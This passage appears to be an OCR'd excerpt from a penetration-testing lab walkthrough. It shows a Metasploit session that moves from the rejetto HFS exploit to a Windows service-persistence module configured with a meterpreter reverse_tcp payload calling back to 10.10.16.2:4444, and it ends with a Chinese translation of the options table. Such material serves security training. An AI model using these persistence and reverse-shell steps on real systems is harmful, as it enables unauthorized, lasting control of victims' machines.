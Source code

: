 ```
   10  post/windows/manage/sshkey_persistence                                 good       No     SSH Key Persistence


Interact with a module by name or index. For example info 10, use 10 or use post/windows/manage/sshkey_persistence
```

```
msf6 exploit(windows/http/rejetto_hfs_exec) > use exploit/windows/local/persistence_service
[*] No payload configured, defaulting to windows/meterpreter/reverse_tcp
msf6 exploit(windows/local/persistence_service) > set payload windows/x64/meterpreter/reverse_tcp
payload => windows/x64/meterpreter/reverse_tcp
msf6 exploit(windows/local/persistence_service) > show options

Module options (exploit/windows/local/persistence_service):

   Name                 Current Setting  Required  Description
   ----                 ---------------  --------  -----------
   REMOTE_EXE_NAME                       no        The remote victim name. Random string as default.
   REMOTE_EXE_PATH                       no        The remote victim exe path to run. Use temp directory as default.
   RETRY_TIME           5                no        The retry time that shell connect failed. 5 seconds as default.
   SERVICE_DESCRIPTION                   no        The description of service. Random string as default.
   SERVICE_NAME                          no        The name of service. Random string as default.
   SESSION                               yes       The session to run this module on.


Payload options (windows/x64/meterpreter/reverse_tcp):

   Name      Current Setting  Required  Description
   ----      ---------------  --------  -----------
   EXITFUNC  process          yes       Exit technique (Accepted: '', seh, thread, process, none)
   LHOST     10.10.16.2       yes       The listen address (an interface may be specified)
   LPORT     4444             yes       The listen port


Exploit target:

   Id  Name
   --  ----
   0   Windows

```

```
模块选项（exploit/windows/local/persistence_service）：

    名称            当前设置        是否需要   说明
    ----            -------------- ------    ----------
    REMOTE_EXE_NAME                 否       远程受害者名称。 默认为随机字符串。
    REMOTE_EXE_PATH                 否       要运行的远程受害者 exe 路径。 默认使用临时目录。
    RETRY_TIME      5               否       shell 连接失败的重试时间。 默认为 5 秒。
    SERVICE_DESCRIPTION             否       服务的描述。 默认为随机字符串。
    SERVICE_NAME                    否       服务名称。 默认为随机字符串。
    SESSION                         是       运行此模块的会话。
```
